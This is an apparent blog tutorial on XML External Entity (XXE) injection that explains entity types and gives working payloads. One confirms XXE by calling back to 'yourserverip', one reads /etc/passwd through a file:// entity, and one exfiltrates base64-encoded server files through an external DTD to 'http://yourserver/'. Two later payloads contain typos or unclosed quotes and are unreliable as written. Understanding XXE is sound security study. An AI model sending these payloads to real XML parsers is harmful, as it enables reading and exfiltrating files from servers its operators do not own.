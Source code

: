 Hi all,

In this post we will cover these following topics.

What is XXE?<br>
How to confirm XXE?<br>
How Exploit Basic XXE?<br>
How Blind XXE works?<br>
and a alternative of blind XXE payload.<br>

But first let's understand some basic keywords.

**Entity**: Entities *reference* data that act as an abbreviation or can be found at an external location. Syntax:- **&test;**

Most common entites are:-

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.<br>
*Syntax:-* `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by 'SYSTEM'.<br>
*Syntax:-* `<!ENTITY entity_name SYSTEM "entity_value">`

**Parameter Entity**: The purpose of a parameter entity is to enable you to create reusable sections of replacement text. (If not understood, You will understand more clearly in later.)<br>
*Syntax:-* `<!ENTITY % entity "another entity (Internal or External)">`<br><br>


## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic.
2. Blind.

Basic one:-

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

**Payload 1**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY test SYSTEM 'http://yourserverip/'>]>`<br>
`<root>&test;</root>`<br>

Now let's understand this. 

1.First we declare the xml Syntax, now, we define DOCTYPE to define the contents of XML body,<br> 
2.After that, we define root element after the DOCTYPE i.e. root, next, we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.<br>
3.After that we define our server's ip because we want to let the target server to send the request to us.

Now when you give that payload to mis-configured XML parser, the mis-configured XML parser will parse the entity `&test;` and we define our server ip, So, it will process our External entity by **requesting to your server ip.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.<br><br>

## **What if the xml data is not showing to us? (Blind XXE Case)**

Okay,

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload which will grep the contents of the local files of the webserver and send the contents to our server. Sound interesting, let's see how this whole theory works and also let's see that if we have some alternatives to do that.

**Payload 2**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]>`<br>
`<root>&entity;</root>`<br>

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`<br>

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
> We are using php filter to get the file contents to bypass any restrictions.
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see how all this works.

<video src="/bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>

Cool. 

Now, *Have anyone arise a question that why **we call the dtd from attacker's server?** Why not this below payload works?*

**Payload 3**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % filecontents SYSTEM 'file:///etc/passwd>`<br>
`<!ENTITY test SYSTEM 'http://yourserver/%filecontents;'>]>`<br>
`<root>&test;</root>`<br>

this would be easier than before? Yes it is, but it is not going to work. 

**According to [XML_DOC](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset), parameter entity can't be called inside the DTD subset, they can be called in the External subset (like we did in Payload no 2). It will be forbidden, hence you will get the forbidden error.**

So that's the reason why we can't run above payload.

Let's try another payload:-

**Payload 4**:

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY filecontents SYSTEM 'file:///etc/passwd>`<br>
`<!ENTITY test SYSTEM 'http://yourserver/&filecontents;'>]>`<br>
`<root>&test;</root>`<br>

So this payload works without any problem but your entity (oops, will correct it later) will act as string, because entity should be in root tag, if it is not it will act as String.

That's all guys, I just want to share because I want. :). Any thing you want to edit please tell me in the comment section.

Hope you like this read. 

Have a good hacking day.

Thanks




